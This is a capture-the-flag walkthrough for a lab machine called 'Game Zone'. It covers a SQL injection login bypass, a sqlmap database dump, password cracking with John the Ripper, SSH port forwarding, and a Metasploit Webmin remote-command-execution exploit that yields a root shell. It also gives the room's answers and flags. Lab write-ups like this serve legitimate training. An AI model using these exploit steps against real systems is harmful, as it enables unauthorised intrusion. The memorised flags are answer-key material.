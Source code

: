 # GAME ZONE

## BASIC INFO
```
export IP=10.10.213.12
```

## OBTAIN ACCESS VIA SQLi

Using the classic SQLi
```SQL
' OR 1 = 1; --
```

> - **When you've logged in, what page do you get redirected to?**
>> portal.php


## USING SQLMAP

```bash
sqlmap -u $IP/portal.php --method POST --data "searchitem=FUZZ" -p searchitem --cookie P
HPSESSID=bmob1asnnds79dm7i8nsuup0u0 --dbs --dbms mysql --level 2
```

> - **In the users table, what is the hashed password?**
>> ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

> - **What was the username associated with the hashed password?**
>> agent47

> - **What was the other table name?**
>> post

## CRACKING A PASSWORD WITH JOHN THE RIPPER

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-ShA256
```

> - **What is the de-hashed password?**
>> videogamer124

> - **Now you have a password and username. Try SSH'ing onto the machine.\
What is the user flag?**
>> 649ac17b1480ac13ef1e4fa579dac95c

## EXPOSING SERVICES WITH REVERSE SSH TUNNELS

Using `ss -tulpn` to see which socket is opened

> - **How any TCP sockets are running?**
>> 5

Service running on port 10000 is blocker via a firewall rule from outside. Run `ssh -L 10000:localhost:10000 agent47@$IP` on our host machine to exposes it to us locally.\
Then in browser, navigate to localhost:10000

> - **What is the name of the exposed CMS?**
>>webmin

> - **What is the CMS version?**
>>1.580

Log in with the credentials we got above


## PRIVILEGE ESCALATION WITH METASPLOIT

> - **What is the root flag?**
>> a4b945830144bdd71908d12d902adeee

Using searchsploit we know this version of webmin is vulnerable to `'/file/show.cgi' Remote Command Execution (Metasploit)`\
Fire up msfconsole, `use exploit/unix/webapp/webmin_show_cgi_exec`\
Then we set the RHOSTS to localhost, username to agent47 and password to videogamer124. Then the LHOST to tun0 and SSL to false.\
Now run the exploit and we should get a shell. `cat root.txt` once we got a shell.
